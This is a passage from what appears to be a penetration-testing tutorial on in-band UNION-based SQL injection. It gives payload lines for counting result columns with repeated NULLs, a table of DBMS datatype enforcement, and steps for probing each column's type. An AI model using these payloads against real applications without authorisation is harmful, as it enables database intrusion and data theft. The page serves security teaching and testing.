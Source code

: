 ```text
ORA-01789: query block has incorrect number of result columns.
```

Detecting the number of fields needed to exploit an in-band SQL injection looks like:

```text
> 9999 UNION SELECT NULL; ---
> 9999 UNION SELECT NULL, NULL; ---
> 9999 UNION SELECT NULL, NULL, NULL; ---
> 9999 UNION SELECT NULL, NULL, NULL, NULL; ---

Another example:

> 1111' UNION SELECT NULL; -- -
> 1111' UNION SELECT NULL, NULL; -- -
> 1111' UNION SELECT NULL, NULL, NULL; -- -
> 1111' UNION SELECT NULL, NULL, NULL, NULL; -- -
```

For the query to work, the number of NULL fields must match, so we can just keep adding it until the app doesn't throw an error anymore, as the two statements finally will be balanced \(with the same number of fields in both SELECT statements\).

This can be used even when the application does not throw an error when the query is wrong. Generally it will not display anything or the page will be messed up, so you can keep adding NULL to the query til it works.

Now, to discover the datatype of each field, we can simply repeat the same exercise since most DBMS won't allow UNION based queries if the datatype are different, therefore:

```text
> SELECT 1 UNION 'a';
```

Won't work and will trigger an error.

| DBMS | Datatype enforcing |
| :--- | :--- |
| MySQL | No |
| MSSQL | Yes |
| ORACLE | Yes |
| PostgreSQL | Yes |

Now, we:

* Substitute one of the null fields with a constant.
* If the constant type is correct, the query will work
* If the type is wrong, the webapp will throw an error or misbehave

So after finding the number of fields, we change the datatypes:

```text
> 1111' UNION SELECT NULL, NULL; -- -
#Change first field to int
> 1111' UNION SELECT 1, NULL; -- -
#If no errors, change the second field to int
> 1111' UNION SELECT 1, 1; -- -
#If errors, change the second field to string
> 1111' UNION SELECT 1, 'a'; -- -
```

